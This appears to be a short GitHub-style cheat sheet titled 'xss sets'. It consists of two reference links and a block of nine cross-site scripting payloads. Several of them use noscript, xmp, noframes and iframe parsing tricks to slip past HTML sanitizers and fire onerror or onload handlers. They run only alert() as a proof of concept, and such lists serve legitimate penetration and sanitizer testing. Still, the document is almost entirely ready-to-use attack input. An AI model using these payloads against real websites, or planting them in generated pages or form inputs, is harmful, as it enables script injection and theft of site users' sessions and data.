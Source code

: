 # xss sets
[About Google](https://nosec.org/home/detail/2449.html)
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)
```JavaScript
<script>alert(1)</script>
'"><script>alert(1)</script>
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>
```
